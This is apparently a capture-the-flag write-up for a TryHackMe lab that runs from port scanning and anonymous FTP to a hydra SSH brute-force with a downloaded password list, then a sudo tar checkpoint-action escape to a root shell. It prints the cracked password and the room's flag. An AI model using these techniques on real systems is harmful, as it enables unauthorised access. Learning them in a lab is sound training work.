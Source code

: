 # Bounty Hacker CTF
Room - https://tryhackme.com/room/easyctf
# Recon
Running a port scan to find open ports
```
nmap -sS -A -oN cowboyscan.txt 10.10.234.162
```
Discover 3 open ports on this system:
```
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
```
Port 80 is open possibly indicating its a web server. <br>
Going to http://10.10.234.162, presents a VERY simple HTML webpage.
### INSERT IMAGE <br>
Using directory enumeration to see if there are any other pages that are accessible.

```
dirb http://10.10.234.162/ /usr/share/wordlists/dirb/common.txt
```
Unfortunately this is a miss. Only returns /image which holds the only image on the main page and /server-status which returns a 403 forbidden. <br>
Moving on to try to see what I can get from FTP. <br>
It can be accessed using anonymous.<br>
```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
After disabling passive mode and using dir. There are two files locks.txt and task.txt <br>
Using the get command to download both files to my system. <br>
task.txt reads: 
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
locks.txt reads:
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Strings consisting of lower and upper case alphanumeric charters, numbers and special characters. Pretty safe to assume these are passwords.
# Initial Access
Now that we have a potential set of passwords and a user (lin). We can attempt to access SSH using hydra. Which cracks it near instantly.
```
hydra -l lin -P locks.txt -u 10.10.234.162 ssh
```
```
[22][ssh] host: 10.10.234.162   login: lin   password: RedDr4gonSynd1cat3
```
```
ssh lin@10.10.234.162
```
Entering the password "RedDr4gonSynd1cat3" when prompted and we are in.
# Privilege Escalation
On the users desktop has a file which contains the first flag and is also the only file on the user.
```
lin@bountyhacker:/$ ls /root/
ls: cannot open directory '/root/': Permission denied
```
Trying to list the root directory is not allowed for this user. Seems lin is not too privileged.

```
lin@bountyhacker:/$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
`sudo -l` shows that we can run /bin/tar as root. Searching https://gtfobins.github.io/ for tar gives us this command:
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
https://gtfobins.github.io/gtfobins/tar/#sudo

```
# whoami
whoami: not found
# 
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# ls /root
root.txt
# 
```

# Collection
After running we now have a shell with root permissions. Then we can read the last flag.
```
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
